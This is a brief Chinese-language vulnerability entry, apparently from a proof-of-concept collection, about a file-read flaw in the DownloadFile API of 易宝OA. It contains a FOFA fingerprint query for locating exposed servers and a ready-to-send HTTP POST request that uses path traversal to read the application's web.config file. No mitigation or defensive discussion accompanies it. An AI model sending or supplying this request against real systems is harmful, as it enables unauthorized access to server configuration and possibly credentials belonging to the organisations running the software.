 ## 易宝OA系统DownloadFile接口存在文件读取漏洞

## fofa
```
"顶讯科技"
```

## poc
```
POST /api/files/DownloadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:21.0) Gecko/20100101 Firefox/21.0
Content-Length: 94
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded

token=zxh&requestFileName=../../manager/web.config&pathType=1&startPosition=0&bufferSize=1000
```

